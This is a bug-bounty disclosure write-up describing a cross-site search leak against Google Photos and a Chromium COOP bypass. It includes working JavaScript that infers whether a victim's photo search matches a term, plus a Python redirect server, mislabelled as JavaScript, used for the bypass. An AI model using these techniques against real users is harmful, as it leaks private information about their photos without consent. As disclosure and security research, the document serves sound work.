 ```yaml
---
title: XS-Search on Google Photos
---
```


Google Photos is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Awarded $1337)

This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/>  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
  // Detect connection reuse for lh3.googleusercontent.com
  // No timing attack needed because of timing-allow-origin: *
  performance.clearResourceTimings();
  await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
  await new Promise((r) => setTimeout(r, 1000));
  let data = performance.getEntries().pop();
  return data.connectStart === data.startTime;
}

async function search(query) {
  let w = open();
  // Close connections using idle timeout.
  await new Promise((r) => setTimeout(r, 30000));
  // First try is free, next needs COOP or user activation bypass.
  w.location = 'https://photos.google.com/search/' + query;
  await new Promise((r) => setTimeout(r, 5000));
  return await isConnected();
}
```

# COOP bypass (Fixed, Awarded $3000)

Abuses the Chromium auto reloader using a invalid server response, also worked with max redirect limit.

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

This was fixed in <https://bugs.chromium.org/p/chromium/issues/detail?id=1357366>
